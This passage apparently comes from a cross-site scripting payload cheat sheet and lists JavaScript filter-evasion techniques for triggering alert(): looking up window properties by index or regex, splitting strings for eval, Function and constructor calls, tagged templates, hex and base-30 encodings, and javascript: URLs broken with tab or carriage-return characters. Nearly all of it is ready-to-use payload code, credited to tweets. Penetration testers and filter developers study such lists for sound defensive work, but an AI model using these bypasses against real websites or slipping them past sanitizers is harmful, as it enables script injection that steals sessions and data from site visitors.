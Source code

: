 ```javascript
c=0; for(i in self) { if(i == "alert") { console.log(c); } c++; }
// 5
```

Then calling alert is :

```javascript
Object.keys(self)[5]
// "alert"
self[Object.keys(self)[5]]("1") // alert("1")
```

We can find "alert" with a regular expression like ^a[rel]+t$ :

```javascript
//bind function alert on new function a()
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}} 

// then you can use a() with Object.keys
self[Object.keys(self)[a()]]("1") // alert("1")
```

Oneliner:

```javascript
a=()=>{c=0;for(i in self){if(/^a[rel]+t$/.test(i)){return c}c++}};self[Object.keys(self)[a()]]("1")
```

From [@quanyang](https://twitter.com/quanyang/status/1078536601184030721) tweet.

```javascript
prompt`${document.domain}`
document.location='java\tscript:alert(1)'
document.location='java\rscript:alert(1)'
document.location='java\tscript:alert(1)'
```

From [@404death](https://twitter.com/404death/status/1011860096685502464) tweet.

```javascript
eval('ale'+'rt(0)');
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;

constructor.constructor("aler"+"t(3)")();
[].filter.constructor('ale'+'rt(4)')();

top["al"+"ert"](5);
top[8680439..toString(30)](7);
top[/al/.source+/ert/.source](8);
top['al\x65rt'](9);

open('java'+'script:ale'+'rt(11)');
location='javascript:ale'+'rt(12)';

setTimeout`alert\u0028document.domain\u0029`;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
```
